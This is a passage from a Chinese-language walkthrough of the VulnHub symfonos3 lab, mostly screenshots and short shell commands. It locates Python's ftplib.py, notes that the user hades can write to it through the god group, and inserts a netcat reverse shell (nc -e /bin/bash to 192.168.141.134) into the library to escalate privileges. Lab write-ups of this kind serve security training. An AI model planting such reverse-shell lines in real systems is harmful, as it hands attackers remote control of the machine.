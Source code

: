 ![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/28.png)

改这个库试试
```bash
find / -name ftplib*
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/29.png)

```bash
cd /usr/lib/python2.7/
ls -l | grep ftplib.py
```

root 和 god 组可以修改,hades 正好是 god 组的 :)

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/30.png)

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/31.png)

```bash
vi /usr/lib/python2.7/ftplib.py

os.system("nc -nv 192.168.141.134 5555 -e /bin/bash")
```
